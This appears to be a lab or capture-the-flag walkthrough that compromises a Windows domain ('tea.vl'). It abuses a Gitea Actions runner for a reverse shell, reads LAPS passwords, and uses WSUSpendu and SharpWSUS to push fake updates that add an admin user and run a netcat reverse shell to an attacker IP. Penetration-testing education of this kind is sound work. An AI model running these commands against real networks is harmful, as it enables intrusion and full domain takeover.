






## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tea.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


[*] Windows Server 2022 Build 20348 x64 (name:SRV) (domain:tea.vl) (signing:False) (SMBv1:False)

PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

Cool ! SRV got Git-Tea on port 3000. Lets Explore ! 


## GITEA_ACTIONS

Register as normal user , and go to settings . Find Runners in Action Tab.

What are actions ? 
`Gitea doesn't run the jobs itself, but delegates the jobs to runners. The runner of Gitea Actions is called [act runner].`

Simply , Its like cron-jobs , You give set of action / jobs to the runners and on the background it's gonna do the job.




Now , As there's a action runner , we need to take leverage of that to get a shell on the box. 

In order to do that : 

1--> Create a New-Repository. Then , Go to the settings of the repository and update Enable Repository Actions.


2 --> Make a new file --> .gitea/workflows/reverse.yaml and commit the change.




```
name: Reverse
run-name: ${{ gitea.actor }} getting reverse shell
on: [push]
jobs:
    Shell:
        runs-on: windows-latest
        steps:
        - name: Reverse_Shell
          run: powershell -e <Reverse-Shell>
```


3 --> Wait for the Runner to complete the action and get the shell.




Cool ! We got shell as thomas.wallace. Lets Use a C2 for persistence and proper shell.


## LAPS 

After some enumeration , found that LAPS is installed on the system. 

 [PrivescCheck](https://github.com/itm4n/PrivescCheck) This script would find that !
```
The Local Administrator Password Solution (LAPS) automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
```


Read LAPS Password.
```
PS > Get-LapsADPassword -Identity SRV.tea.vl -AsPlainText
```



We got clear text password of the Administrator. Login with the administrator password.

```
└─# evil-winrm -i 10.10.213.182 -u administrator -p '3);Ro$4}LH%50K'
```

```
For persistence , we can prevent a machine from updating its password by setting the expiration date into the future.
```


## D.A via WSUS


```
Windows Server Update Services [WSUS], is a computer program and network service that enables administrators to manage the distribution of updates and hotfixes released for Microsoft products to computers in a corporate environment. WSUS downloads these updates from the Microsoft Update website and then distributes them to computers on a network.
```

Simply, It updates and hotfixes all the computers that are managed by WSUS in the network from a single server, so we don't have to visit all the computers and update them one-by-one.


```
.\SharpWSUS.exe inspect
```




In this scenario , the WSUS is configured / assigned only to the DC not the SRV where we have admin privilege right now. But as we are administrator we can abuse this. For that we need tools !

-->  [WSUSpendu](https://github.com/alex-dengx/WSUSpendu) and [SharpWSUS](https://github.com/h4rithd/PrecompiledBinaries/tree/main/SharpWSUS). These tools can allow us to distribute fake Windows updates with our set of commands.

--> [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) 

Upload WSUSpendu and Psexec to the victim PC !

```
.\WSUSpendu.ps1 -Inject -PayloadFile C:\users\administrator\documents\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user hacker Password123@ /add && net localgroup administrators hacker /add"' -ComputerName dc.tea.vl
```
This tool is gonna approve the req. itself !

Wait for 5 minutes , then login as hacker in the domain controller.




Same exploit with SharpWSUS.

Request the update.
```
.\SharpWSUS.exe create /payload:"C:\Users\administrator\Documents\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c ' C:\Users\administrator\Documents\nc64.exe -e cmd 10.8.0.148 1337 '" /title:"LocalUpdate"
```

 Approve the request.
```
.\SharpWSUS.exe approve /updateid:1a74db88-3a8a-4cbf-ad39-785c09c4a843 /computername:dc.tea.vl /groupname:"Pwned"
```


The DC's pwned !